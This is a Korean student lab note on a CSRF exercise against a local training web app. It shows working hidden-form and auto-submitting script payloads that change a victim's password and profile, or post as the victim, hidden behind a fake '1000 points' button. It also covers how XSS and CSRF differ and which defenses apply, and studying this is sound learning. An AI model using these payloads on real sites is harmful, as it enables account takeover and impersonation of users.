

# CSRF 상태 변경 요청 실습

source: [[40_자료/강의 자료/5-20_웹보안.pdf|5-20 웹보안]], p.103-105. 개념 범위는 p.98-106.

## 현재 판정

> [!summary] 최종 성공
> POST 방식 CSRF로 두 가지 상태 변경 요청을 재현했다. 회원정보 변경 요청은 `POST /member/modifyModel.php`의 form field를 hidden form으로 재구성했고, 게시글 작성 요청은 `POST /center/writeModel.php`의 `subject`, `content` field를 hidden form으로 재구성했다. 둘 다 게시글 열람 또는 버튼 클릭을 통해 피해자 권한으로 처리되는 것을 확인했다.

이번 실습의 핵심은 “공격자가 Cookie를 훔쳤다”가 아니다. **로그인된 브라우저가 게시글 안의 form/script를 해석하면서, 자기 Session Cookie를 붙여 서버의 상태 변경 기능을 호출한다**는 점이다.

> [!warning] 기록 원칙
> 이 노트에는 실제 비밀번호, Session Cookie, 개인정보를 그대로 남기지 않는다. raw 메모에 있던 값도 정리본에서는 `<REDACTED>` 또는 `<NEW_VALUE>`로 마스킹한다.

---

## 성공 증거

| 증거              | 관찰                                   |
| --------------- | ------------------------------------ |
| 변경 전 회원정보       | ![[Pasted image 20260527165518.png]] |
| 버튼 클릭형 CSRF 게시글 | ![[Pasted image 20260527170730.png]] |
| 자동 제출형 CSRF 게시글 | ![[Pasted image 20260527171024.png]] |
| 변경 후 회원정보       | ![[Pasted image 20260527170835.png]] |
| 자동 제출 후 변경 확인   | ![[Pasted image 20260527171226.png]] |
| 게시글 작성 CSRF 증거  | ![[Pasted image 20260527173706.png]] |
| 자동 게시글 작성 확인    | ![[Pasted image 20260528094744.png]] |

자동 제출형 글은 들어가자마자 `modifyModel.php`가 실행되면서 아래 응답 흐름으로 보였다.

```html
<!-- 자바 스크립트를 이용해 alert 창 출력 및 logout.php로 이동. -->
<script>alert('수정 완료'); location.href='logout.php'; </script>
```

이 응답은 서버가 회원정보 수정 요청을 정상 처리한 뒤, 브라우저에게 알림을 띄우고 `logout.php`로 이동시키는 구조로 해석된다.

---

## 이번 실습에서 확인한 CSRF 대상 기능

이번 실습은 CSRF라는 하나의 원리를 두 기능에 적용해 확인한 것이다. 회원정보 변경과 게시글 작성은 서로의 파생 관계가 아니라, 둘 다 **로그인 사용자 권한으로 처리되는 상태 변경 요청**이라는 공통점을 가진 CSRF 대상 기능이다.

| 대상 기능 | endpoint | 요청 field | 상태 변화 |
|---|---|---|---|
| 회원정보 변경 | `/member/modifyModel.php` | `pw`, `pwCheck`, `name`, `mobile`, `address`, `email` | 피해자 계정 정보 변경 |
| 게시글 작성 | `/center/writeModel.php` | `subject`, `content` | 피해자 계정으로 게시글 작성 |

일반화하면 PHP냐 JSP냐가 핵심은 아니다. 서버에 `modifyModel.php`, `writeModel.php`, `updateProfile.jsp`, `writeBoard.jsp`처럼 **로그인 사용자 권한으로 상태를 바꾸는 endpoint**가 있고, 그 요청이 Session Cookie만으로 처리된다면 CSRF 대상이 될 수 있다.

```text
CSRF 대상 = 로그인 사용자 권한 + 상태 변경 endpoint + 요청 구조 예측 가능 + 추가 검증 없음
```

---

## 한눈에 보는 흐름



> [!important] 신뢰 경계
> 공격 실행 자체에 Paros가 필요한 것은 아니다. Paros는 정상 요청 구조를 찾고, 자동 POST 요청이 실제로 나갔는지 확인하는 관찰 도구다. 서버는 “이 요청이 사용자가 직접 의도한 요청인지”를 확인하지 않고, Session Cookie가 붙은 POST 요청을 정상 회원정보 수정으로 처리했다.

---

## 실제 진행 순서

### 1. 정상 회원정보 수정 요청 캡처

사이트에서 회원정보를 정상 수정한 뒤 Paros에서 다음 요청을 찾았다.

| 항목 | 관찰 |
|---|---|
| Method | `POST` |
| URL | `http://172.16.0.150:8080/member/modifyModel.php` |
| Body 형식 | `application/x-www-form-urlencoded` 형태의 form field |
| 주요 field | `pw`, `pwCheck`, `name`, `mobile`, `address`, `email` |
| CSRF token | raw 메모 기준으로는 별도 token 확인 기록 없음 |

raw 요청 body에는 실제 값이 들어 있었으므로 정리본에서는 구조만 남긴다.

```text
pw=<NEW_VALUE>&pwCheck=<NEW_VALUE>&name=<NEW_VALUE>&mobile=<NEW_VALUE>&address=<NEW_VALUE>&email=<NEW_VALUE>
```

여기서 중요한 것은 값 자체가 아니라 **회원정보 변경에 필요한 field 이름과 endpoint**다.

### 2. 버튼 클릭형 form 작성

먼저 사용자가 버튼을 누르면 POST 요청이 전송되는 form을 만들었다.

```html
이벤트 중. 버튼 누르면 포인트 줌.
<form method="POST" action="/member/modifyModel.php">
  <input type="hidden" name="pw" value="<NEW_VALUE>" />
  <input type="hidden" name="pwCheck" value="<NEW_VALUE>" />
  <input type="hidden" name="name" value="<NEW_VALUE>" />
  <input type="hidden" name="mobile" value="<NEW_VALUE>" />
  <input type="hidden" name="address" value="<NEW_VALUE>" />
  <input type="hidden" name="email" value="<NEW_VALUE>" />
  <input type="submit" value="1000포인트 획득" />
</form>
```

의미:

```text
hidden input = 화면에는 안 보이지만 서버로 보낼 값
submit 버튼 = 사용자가 누르면 form이 서버로 전송됨
```

이 방식은 PDF p.99의 One-click Attack과 연결해서 볼 수 있다. 사용자는 “포인트 받기” 버튼이라고 생각하지만, 실제로는 회원정보 수정 POST 요청을 보낸다.

### 3. 자동 제출형 form 작성

그 다음 게시글을 열람하는 순간 자동으로 제출되는 form을 만들었다.

```html
<form id="f" method="POST" action="/member/modifyModel.php">
  <input type="hidden" name="pw" value="<NEW_VALUE>" />
  <input type="hidden" name="pwCheck" value="<NEW_VALUE>" />
  <input type="hidden" name="name" value="<NEW_VALUE>" />
  <input type="hidden" name="mobile" value="<NEW_VALUE>" />
  <input type="hidden" name="address" value="<NEW_VALUE>" />
  <input type="hidden" name="email" value="<NEW_VALUE>" />
  <input type="submit" value="1000포인트 획득" />
</form>
<script>document.getElementById("f").submit();</script>
```

의미:

```text
document.getElementById("f") = id가 f인 form을 찾아라.
submit() = 그 form을 지금 바로 제출해라.
```

이 방식은 사용자가 버튼을 누르지 않아도 글을 열람하는 순간 요청이 나가므로 Zero-click Attack에 가깝다.

### 4. 게시글 작성 위치

위 코드는 게시글에 넣어서 테스트했다.

관찰:

- Kali에서 했을 때는 원하는 대로 되지 않았다.
- Windows에서 하니 동작했다.

아직 원인은 확정하지 않는다. 가능한 후보는 다음 정도다.

| 후보 | 확인할 것 |
|---|---|
| 브라우저 차이 | Kali/Windows 브라우저가 HTML form/script를 다르게 처리했는가 |
| 로그인 세션 차이 | Kali와 Windows가 같은 계정으로 로그인되어 있었는가 |
| Proxy 설정 차이 | Paros/Burp 설정 때문에 요청이 다르게 흐르지 않았는가 |
| 게시글 저장/필터링 차이 | 한쪽 환경에서 HTML이 다르게 저장되거나 필터링됐는가 |

### 5. 게시글 작성 요청 재구성

회원정보 변경뿐 아니라 게시글 작성 기능도 같은 방식으로 재구성했다. 대상 endpoint는 `/center/writeModel.php`이고, 필요한 field는 `subject`, `content`였다.

```html
<form method="POST" action="/center/writeModel.php">
  <input type="hidden" name="subject" value="<NEW_SUBJECT>" />
  <input type="hidden" name="content" value="<NEW_CONTENT>" />
  <input type="submit" value="1000포인트 획득" />
</form>
```

자동 제출형은 form에 `id`를 주고 `submit()`을 호출하는 방식으로 구성했다.

```html
<form id="e" method="POST" action="/center/writeModel.php">
  <input type="hidden" name="subject" value="<NEW_SUBJECT>" />
  <input type="hidden" name="content" value="<NEW_CONTENT>" />
</form>
<script>document.getElementById("e").submit();</script>
```

이 사례는 PDF p.100의 “댓글 자동 달기” 계열 예시와 직접 연결된다. 회원정보 변경과 게시글 작성은 서로의 파생이 아니라, 둘 다 피해자 권한으로 서버 상태를 바꾸는 CSRF 대상 기능이다.

---

## PDF와 연결

| page | 이번 실습에서 확인한 점 |
|---|---|
| p.98 | 공격자는 먼저 기능의 Request/Response를 분석해야 한다. 여기서는 Paros로 정상 회원정보 변경 POST 요청을 확인했다. |
| p.99 | Victim은 악성 코드를 읽고 자신도 모르게 서버로 Request를 보낸다. 버튼 클릭형은 One-click, 자동 제출형은 Zero-click에 가깝다. |
| p.100 | CSRF는 댓글/친구 등록/회원정보 변경/좋아요 같은 여러 기능에 적용될 수 있다. 이번 실습에서는 회원정보 변경과 게시글 작성을 확인했다. |
| p.101 | 게시글에 CSRF 트리거를 올리고, 글을 읽는 사람이 요청을 보내는 Stored 방식 흐름이다. |
| p.103-104 | 게시글을 읽은 사람의 개인정보가 자동으로 변경되는 흐름을 확인했다. |
| p.105 | POST 방식도 form과 JavaScript 자동 제출로 CSRF가 가능함을 확인했다. |
| p.106 | POST를 쓴다고 안전해지는 것이 아니며, 서버 측에서 CSRF token/재인증 같은 추가 검증이 필요하다. |

---

## XSS와 CSRF의 차이를 이 실습으로 다시 보기

| 구분 | 이번 실습에서의 의미 |
|---|---|
| XSS | 게시글 안의 script/form이 브라우저에서 실행되는 문제 |
| CSRF | 실행된 form이 피해자 권한의 상태 변경 요청을 서버로 보내는 문제 |

이번 실습은 두 개념이 겹쳐 보일 수 있다. 게시글에 HTML/script를 넣었기 때문에 XSS처럼 보이지만, 최종 피해는 **서버 기능인 회원정보 수정과 게시글 작성 요청이 피해자 권한으로 실행된 것**이다. 그래서 핵심 분류는 CSRF다.

---

## 보안 의미

- CSRF는 Cookie를 훔치는 공격이 아니다.
- 서버가 Session Cookie만 보고 “정상 사용자가 의도한 요청”이라고 판단하면 취약하다.
- POST 방식도 hidden form과 자동 submit으로 유도할 수 있다.
- 버튼 클릭형은 사용자의 클릭을 유도하고, 자동 제출형은 열람만으로 요청이 나가게 만든다.
- 중요한 상태 변경 기능은 CSRF token, Origin/Referer 검증, 재인증 같은 추가 방어가 필요하다.

```text
핵심 질문:
이 서버는 상태 변경 요청을 받을 때
"로그인된 사용자"인지뿐 아니라
"정말 사용자가 의도한 요청"인지도 확인하는가?
```

---

## 방어 후 재실행 기준

방어를 적용했다면 같은 게시글을 다시 열람했을 때 실패해야 한다.

| 방어 | 기대 결과 |
|---|---|
| CSRF token | token이 없거나 틀린 요청 거부 |
| Origin / Referer 검증 | 출처가 맞지 않는 요청 거부 |
| SameSite Cookie | cross-site 문맥에서 Cookie 자동 전송 제한 |
| 중요 기능 재인증 | Cookie만으로는 회원정보 변경 불가 |
| 게시글 HTML/script 필터링 | form/script 자체가 저장 또는 실행되지 않음 |

---

## 시행착오 기록

| 관찰 | 현재 해석 | 다음 확인 |
|---|---|---|
| Kali에서는 같은 방식이 되지 않았고 Windows에서는 됨 | 환경 차이가 있음. 원인은 아직 확정하지 않음 | 브라우저, 로그인 상태, Proxy 설정, 게시글 필터링 차이 확인 |
| 자동 제출형 글을 열면 `수정 완료` alert 후 logout.php로 이동 | `modifyModel.php`가 수정 성공 후 alert와 redirect를 반환하는 구조로 보임 | 실제 `modifyModel.php` 코드 확인 가능하면 확인 |
| 버튼 문구는 포인트 획득처럼 보이지만 실제 요청은 회원정보 변경 | 사회공학적 유도와 CSRF가 결합된 형태 | 버튼 클릭형/자동 제출형을 구분해서 기록 |

---

## 원본 중간 기록

> [!note] raw 기록 보존
> 아래는 실습 중 빠르게 적은 기록을 정리한 것이다. 비밀번호, 전화번호, 이메일, 주소처럼 보이는 값은 마스킹했다.

1. 사이트에서 회원 정보 수정.
2. Paros에서 `POST http://172.16.0.150:8080/member/modifyModel.php`를 찾음.
3. 요청 body에서 `pw`, `pwCheck`, `name`, `mobile`, `address`, `email` field를 확인함.
4. PDF p.105에 있는 form 태그 방식으로 회원정보 수정 요청을 재구성함.
5. 버튼을 누르면 작동하는 form과, 글에 들어가자마자 자동으로 작동하는 form을 둘 다 테스트함.
6. Kali에서는 안 됐고 Windows에서 동작함.
7. 당해본 뒤 회원정보가 수정된 것을 확인함.
8. 이번엔 자동으로 글 써지는거.
   ```php
   ㅎㅇ
이벤트 중. 버튼 누르면 포인트 줌.
<form method="POST" action="/center/writeModel.php">
  <input type="hidden" name="subject" value="바보" />
  <input type="hidden" name="content" value="바보" />
  <input type="submit" value="1000포인트 휙득" />
</form>
   ```
   ```php
<form id="e" method="POST" action="/center/writeModel.php">
  <input type="hidden" name="subject" value="히히 나는 바보" />
  <input type="hidden" name="content" value="바보에요" />
</form>
<script>document.getElementById("e").submit();</script>
   ```
9. 증거
   ![[Pasted image 20260527173706.png]]
   ![[Pasted image 20260527173733.png]] 
   

---

## 삭제/정리 후보

아직 삭제하지 않았다. 나중에 최종 정리할 때 아래 항목은 정리 여부를 결정하면 된다.

| 후보 | 이유 | 제안 |
|---|---|---|
| raw 메모의 실제 값 원문 | 비밀번호/개인정보처럼 보이는 값이 포함됨 | 최종본에서는 계속 마스킹 유지 |
| `submit` 버튼 문구의 오타 | `휙득`처럼 오타가 있음 | 수업 당시 그대로의 증거라면 유지, 최종 설명에서는 `획득`으로 표기 |
| Kali/Windows 차이 | 원인 미확정 | 삭제하지 말고 시행착오로 유지 |

---

## 관련 노트

- [[10_학습 노트/시스템보안/웹보안/CSRF|CSRF]]
- [[10_학습 노트/시스템보안/웹보안/XSS|XSS]]
- [[10_학습 노트/시스템보안/웹보안/Web Session Hijacking|Web Session Hijacking]]
- [[10_학습 노트/시스템보안/웹보안/HTTP Method와 Header|HTTP Method와 Header]]
